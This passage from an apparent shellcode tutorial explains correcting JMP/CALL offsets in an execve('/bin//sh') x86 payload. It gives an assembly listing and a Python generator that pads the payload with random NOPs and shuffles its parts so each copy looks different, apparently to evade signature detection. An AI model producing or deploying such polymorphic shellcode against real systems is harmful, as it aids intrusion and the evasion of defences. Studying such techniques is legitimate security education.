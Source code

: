In our original shellcode we've got:

{%highlight asm%}
 8048087:	eb 03                	jmp    804808c <shell>

08048089 <flow>:
 8048089:	5b                   	pop    %ebx
 804808a:	cd 80                	int    $0x80

0804808c <shell>:
 804808c:	e8 f8 ff ff ff       	call   8048089 <flow>
 8048091:	2f                   	das    

{%endhighlight%}

The "\xe8" is the opcode for the CALL instruction and the other part is a 32
bit signed offset, relative to the instruction **following** the CALL.

We need to make a jump long 7 bytes in a backward direction, that is
\xFF-\x07=\xF8

Then we need to adjust our jump accordingly. When we corrected the first JMP,
we want to reach the beginning of the call, now I want to reach the "\x5b".

After all modifications, and some more GDB sessions to fight against offsets, it turned out that this is the correct JMP/CALL offset adjustment implementation:

{%highlight python%}
def exec_nop_dope():
    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b" ];

    n = randint(0, 10); 
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    # The first JMP address is our setup_blk array lenght + 2
    # The second CALL address is FF - our setup_blk array lenght - 6
    jmp_adj = byte_len(setup_blk) + 2
    call_adj = format((255 - byte_len(setup_blk) - 6), 'x')

    return "".join(init_blk)+"\\xeb\\x0"+str(jmp_adj)+"".join(setup_blk)+"\\xcd\\x80\\xe8\\x"+str(call_adj)+"\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

{%endhighlight%}

{%asciicast 197548 %}

### Even more wasted CPU time
